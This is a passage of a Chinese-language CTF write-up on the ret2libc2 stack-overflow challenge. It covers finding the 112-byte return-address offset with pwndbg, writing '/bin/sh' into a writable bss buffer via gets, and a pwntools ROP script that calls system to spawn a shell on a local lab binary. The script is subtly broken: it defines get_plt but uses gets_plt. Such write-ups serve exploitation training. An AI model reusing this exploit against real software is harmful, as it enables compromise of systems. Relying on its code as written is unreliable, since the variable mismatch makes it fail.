         ```shell
        pwndbg> cyclic -l 0x62616164
        112
        ```

        112 就是 s 对于返回地址的偏移值（非常的 Amazing 啊）

- system 函数也有返回地址，所以在中间要补一个函数，`0xdeadbeef`是我自己的恶趣味（），写`p32(0)`或者`b"AAAA"`就可以了、

- 32 位传参就是从栈上从右向左拿参数，64 位前六个参数则需是通过寄存器`rdi,rsi,rdx,rcx,r8,r9`的顺序传参，剩余的则按照 32 位从右向左取栈

## ret2libc2

这题在 ret2libc1 的基础上去掉了`binsh`字符串。也就是说，我们需要自己构建一个`gets`输入`/bin/sh`并作为`system`的参数引用。

在`vmmap`中可以看到 data 这个内存页是可写的

```shell
0x804a000  0x804b000 rw-p     1000 1000   /home/nova/Desktop/CTF/ctf-wiki/ret2libc/ret2libc2
```

![](https://oss.nova.gal/img/image-20211214121414814.png)

那么我们考虑将`/bin/sh`写入到 bss 段上的`buf2`处

![image-20211214121848183](https://oss.nova.gal/img/image-20211214121848183.png)

思路很明显了：

- 在程序的 gets 中覆盖返回地址到我们新的 gets
- 新的 gets 将输入存到 buf2 地址处，并返回到 system 函数
- system 函数调用 buf2 处的数据作为参数

接下来就是如何编写 payload

给出两个 exp。

### EXP1

```python
from pwn import *

sh = process('./ret2libc2')
elf = ELF("./ret2libc2")

get_plt = elf.plt["gets"]
system_plt = elf.plt["system"]
pop_ebx = 0x0804843d
buf2 = 0x804a080
payload = flat(
    ['a' * 112, gets_plt, pop_ebx, buf2, system_plt, 0xdeadbeef, buf2])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```
